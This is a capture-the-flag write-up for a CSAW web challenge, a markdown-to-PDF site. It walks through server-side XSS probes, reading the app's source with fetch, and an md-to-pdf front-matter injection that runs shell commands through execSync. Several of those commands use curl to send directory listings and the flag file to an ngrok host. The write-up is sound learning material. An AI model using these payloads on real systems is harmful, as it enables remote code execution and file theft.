



# My little website

> Description: I am new to programming and made this simple pdf creater website here, hopefully it is secure enough :)...
> [http://web.chal.csaw.io:5013](http://web.chal.csaw.io:5013)

The challenge comes as a pdf rendering website, we can inject markdown or maybe...javascript.\
First thing, check for XSS:

```javascript
<script> document.write(window.location) </script>
```

<figure><figcaption></figcaption></figure>

Ok, vulnerable, actually, it's Server-Side XSS, as we're not injecting code in the webpage (client-side), instead we executing code on the server-side of the application. \
Let's try something more interesting:

```javascript
<script>document.write('<iframe src="/"></iframe>')</script>
```

<figure><figcaption></figcaption></figure>

We're inside /chal directory, node.js webapp, but index.js seems definitely something interesting for us, let's try to read it:

```javascript
<script>
fetch('index.js')
  .then(response => response.text())
  .then(text => document.write(text))
</script>
```

<figure><figcaption></figcaption></figure>

That's a lot of info, but what's most important is the `mdToPdf` package, with a quick search we'll know that we can do RCE: [https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880).

```javascript
---js
require('child_process').execSync('ls -la > /tmp/tmp.txt && curl -d @/tmp/tmp.txt http://06f6-151-62-28-161.eu.ngrok.io')
---
```

<figure><figcaption></figcaption></figure>

No flag here, let's try to look one directory above:

```javascript
---js
require('child_process').execSync('ls -la .. > /tmp/tmp.txt && curl -d @/tmp/tmp.txt http://06f6-151-62-28-161.eu.ngrok.io')
---
```

<figure><figcaption></figcaption></figure>

Here we go, read flag.txt:

```javascript
---js
require('child_process').execSync('curl -d @../flag.txt http://06f6-151-62-28-161.eu.ngrok.io')
---
```

<figure><figcaption></figcaption></figure>

> CTF{pdf\_c0nt1nu3s\_70\_5uCK}
